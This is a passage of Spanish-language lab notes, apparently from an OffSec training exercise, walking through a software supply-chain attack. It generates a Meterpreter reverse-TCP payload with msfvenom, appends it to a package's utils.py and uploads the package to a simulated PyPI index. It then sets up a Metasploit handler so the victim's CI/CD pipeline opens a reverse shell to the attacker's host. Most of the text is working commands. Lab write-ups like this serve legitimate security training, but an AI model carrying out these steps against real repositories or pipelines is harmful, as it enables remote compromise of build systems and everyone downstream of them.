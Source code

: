 3. **Generar el Payload Meterpreter**:
   - Usar `msfvenom` para generar un payload Python:
     ```bash
     msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.88.99.76 LPORT=4488
     ```
   - Copiar el payload generado al final de `utils.py`.

4. **Configurar el Repositorio**:
   - Crear el archivo `~/.pypirc`:
     ```ini
     [distutils]
     index-servers = 
         offseclab

     [offseclab]
     repository: http://pypi.offseclab.io/
     username: student
     password: password
     ```

5. **Construir y Subir el Paquete**:
   - Construir y subir el paquete al repositorio simulado:
     ```bash
     python3 setup.py sdist upload -r offseclab
     ```

6. **Configurar el Listener**:
   - Iniciar sesión en la instancia Kali en la nube:
     ```bash
     ssh kali@192.88.99.76
     ```
   - Iniciar la base de datos de Metasploit:
     ```bash
     sudo msfdb init
     ```
   - Iniciar `msfconsole` y configurar el handler:
     ```bash
     msfconsole
     use exploit/multi/handler
     set payload python/meterpreter/reverse_tcp
     set LHOST 0.0.0.0
     set LPORT 4488
     set ExitOnSession false
     run -jz
     ```

7. **Esperar la Ejecución**:
   - El pipeline CI/CD descargará el paquete malicioso en su próximo ciclo de construcción (cada 10 minutos).
   - Verificar la recepción del shell inverso en `msfconsole`:
     ```bash
     sessions -i <session_id>
     ```
